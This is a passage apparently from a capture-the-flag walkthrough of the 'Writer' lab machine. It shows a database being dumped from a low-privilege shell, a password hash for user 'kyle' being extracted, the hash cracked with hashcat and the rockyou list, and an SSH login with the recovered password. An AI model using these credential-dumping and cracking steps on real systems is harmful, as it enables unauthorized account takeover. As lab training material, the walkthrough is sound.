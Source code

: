 Use the low priv shell to dump the SQL db, then grep for some keywords and find a hash for user kyle
```sql
cat dump.out| grep -i kyle
INSERT INTO `auth_user` VALUES (1,'pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=',NULL,1,'kyle','','','kyle@writer.htb',1,1,'2021-05-19 12:41:37.168368');
```
Run the hash through hashcat with rockyou to get kyle's password:```marcoantonio```
```bash
ssh kyle@10.10.11.101
kyle@10.10.11.101's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

[snip]

You have new mail.
Last login: Wed Sep  1 17:29:08 2021 from 10.10.16.2
```
Notice the "You have new mail."